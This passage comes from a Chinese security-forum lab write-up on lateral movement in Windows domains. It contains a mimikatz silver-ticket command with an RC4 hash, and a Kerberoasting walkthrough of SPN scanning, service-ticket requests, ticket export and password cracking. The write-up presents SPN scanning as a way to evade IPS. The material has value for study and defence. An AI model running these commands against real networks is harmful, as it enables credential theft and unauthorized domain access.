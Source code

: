 /sid:S-1-5-21-2273191065-1635484360-3888421177-500 /target:WIN-
MPPGQR2OWEC.test.com /service:cifs /rc4:fac5d668099409cb6fa223a32ea493b6
/user:c3 /ptt  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_347HDAVEMMRXV2W.png)  
退出mimikatz，查看内存中的票据：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_TTYEMJQTVJDW78E.png)  
重新访问域控的共享目录：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_6XEBB4ASEY47CCN.png)

#
[](https://bbs.pediy.com/thread-268289.htm#%E4%BA%94%E3%80%81%E5%88%A9%E7%94%A8spn%E6%9C%8D%E5%8A%A1%E8%BF%9B%E8%A1%8C%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8)五、利用SPN服务进行横向移动

在域环境中，SPN扫描是查找相关服务较好的方法，可以从相关服务着手，如MSSQL、WSMAN、Exchange、TERMSERV、Hyper-V。其扫描是通过请求特定SPN类型的服务主题名称进行的。与普通网络端口相比，SPN扫描不需要连接IP来检测服务端口，所以能规避一些IPS的规则，且进行扫描只需普通域用户权限。  
注册SPN  
Setspn -A c3/test MSSQL  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_JFE2FPPJ7PNSFBZ.png)  
查看注册的SPN  
Setspn -q _/_  
Setspn -q _/_ | findstr “MYSQL”  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_Z7ZRGCTCK2TAEGE.png)  
请求服务票据  
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken
-ArgumentList "MySQL/win7.xie.com:3306/MySQL"  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_R8979DQSWYDTG6M.png)  
列出服务票据  
Klist  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_JXQTKKT3SHYT8SF.png)  
并用mimikatz将票据导出  
Kerberos::list /export  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_9GJ9D6KCKVBW7MW.png)  
最后使用tgsrepcrack.py爆破得到相应密码。

#
[](https://bbs.pediy.com/thread-268289.htm#%E5%85%AD%E3%80%81%E9%9A%A7%E9%81%93%E9%80%9A%E4%BF%A1)六、隧道通信

## [](https://bbs.pediy.com/thread-268289.htm)6.1 网络层隧道
